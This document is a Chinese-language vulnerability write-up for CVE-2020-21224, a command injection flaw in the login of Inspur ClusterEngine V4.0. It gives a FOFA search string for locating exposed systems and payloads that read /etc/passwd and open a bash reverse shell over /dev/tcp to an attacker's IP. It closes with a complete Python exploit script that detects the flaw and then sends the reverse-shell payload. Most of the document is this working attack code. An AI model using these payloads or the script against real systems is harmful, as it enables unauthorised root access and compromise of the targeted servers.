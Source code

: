 # 浪潮ClusterEngineV4.0 远程命令执行漏洞 CVE-2020-21224

## 漏洞描述

浪潮服务器群集管理系统存在危险字符未过滤，导致远程命令执行

## 漏洞影响

```
浪潮ClusterEngineV4.0
```

## FOFA

```
title="TSCEV4.0"
```

## 漏洞复现

登录页面如下



![](./images/202202091847442.png)



由于登录页面没有发现验证码，进行账号爆破



当burpsuite爆破完成时，注意到POST数据中如果带有 ;' ，响应数据包发生异常。



![](./images/202202091847752.png)



通过响应包信息，猜测可能存在一个远程执行代码漏洞，并将此数据包放在repeater中，我发现如果发布数据中有



一个 ' ，系统将抛出异常。



![](./images/202202091847377.png)

![4](./images/202202091847382.png)



进一步测试时，我发现username参数或password任一参数如果包含 ' ，将引发此异常



![](./images/202202091847158.png)



定尝试发送 ' ' 来查看响应包。



![](./images/202202091848777.png)



我注意到 grep 命令错误，服务端的代码可能是这样



```shell
var1 = `grep xxxx` 
var2 = $(python -c "from crypt import crypt;print crypt('$username','$1$$var1')")
```



尝试发送 -V 和 --help 来查看响应包，响应包证实了猜测



![](./images/202202091848195.png)

![8](./images/202202091848197.png)



尝试读取  **/etc/passswd**



![](./images/202202091848409.png)



尝试列目录



![](./images/202202091848084.png)



确认存在一个远程执行命令执行漏洞，经过fuzz，得到以下payload



![](./images/202202091848053.png)

![12](./images/202202091848057.png)



反弹 shell



```shell
op=login&username=1 2\',\'1\'\); `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
```



payload发送后, 在 kali linux 服务器上获取了一个 root 权限的 shell



![](./images/202202091848952.png)



上面是原文的测试思路，但经过重新测试之后发现还有另一种简单方法



```plain
POC测试(出现 root:x:0:0 则存在漏洞)
op=login&username=test`$(cat /etc/passwd)`

{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user test does not exist\nerror:1\n"}

反弹shell
op=login&username=test`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`
```



![](./images/202202091849501.png)



## 漏洞POC



```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 浪潮ClusterEngineV4.0                                     \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mIP          >>> xxx.xxx.xxx.xxx:9999                              \033[0m')
    print('+  \033[36mPORT        >>> 9999                                              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    }
    data = "op=login&username=test`$(cat /etc/passwd)`"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=4)
        etc_passwd = re.findall(r'\{"err":"/bin/sh: (.*?): No such', response.text)
        if response.status_code == 200 and "root:x:0:0" in response.text:
            print("\033[32m[o]    目标 {} 可能存在漏洞, 响应为:{} \033[0m".format(target_url, etc_passwd[0]))
            POC_2(target_url)
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def POC_2(target_url):
    IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
    PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
    vuln_url = target_url + "/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    }
    data = "op=login&username=`bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261`".format(IP, PORT)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False)
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
    POC_1(target_url)
```



![](./images/202202091849410.png)